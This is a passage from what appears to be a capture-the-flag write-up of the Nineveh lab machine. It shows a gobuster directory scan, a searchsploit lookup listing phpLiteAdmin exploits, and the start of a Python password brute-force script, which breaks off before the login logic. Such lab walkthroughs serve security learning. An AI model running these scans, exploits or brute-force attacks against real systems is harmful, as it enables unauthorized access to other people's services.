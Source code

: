 ```console
root@kali:~# gobuster dir -k -u https://nineveh.htb/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -e 2>/dev/null
...
https://nineveh.htb/db                   (Status: 301) [Size: 309] [--> https://nineveh.htb/db/]
https://nineveh.htb/server-status        (Status: 403) [Size: 300]
https://nineveh.htb/secure_notes         (Status: 301) [Size: 319] [--> https://nineveh.htb/secure_notes/]
https://nineveh.htb/64659                (Status: 400) [Size: 304]
```

I browsed to the **db** directory and it redirected me to a **phpLiteAmin** login page.

![](/assets/images/ninevehv03/screenshot-8.png)

Searching for vulnerabilities for this version of **phpLiteAdmin v1.9** I found the **Remote PHP Code Injection** exploit, that worked to exploit this version.

```console
root@kali:~# searchsploit phpliteadmin
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
phpLiteAdmin - 'table' SQL Injection             | php/webapps/38228.txt
phpLiteAdmin 1.1 - Multiple Vulnerabilities      | php/webapps/37515.txt
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection   | php/webapps/24044.txt
phpLiteAdmin 1.9.6 - Multiple Vulnerabilities    | php/webapps/39714.txt
------------------------------------------------- ---------------------------------
```

Since I do not know the password to login, I decided to write a python script to perform a dictionary attack on the password field.

```python
#!/usr/bin/env python3

import requests

url = "https://nineveh.htb"

requests.packages.urllib3.disable_warnings()

def phpliteBF(user):
    data = {
        'password':user,
        'remember':'yes',
        'login':'Log+In',
        'proc_login':'true'
        }

    try:
```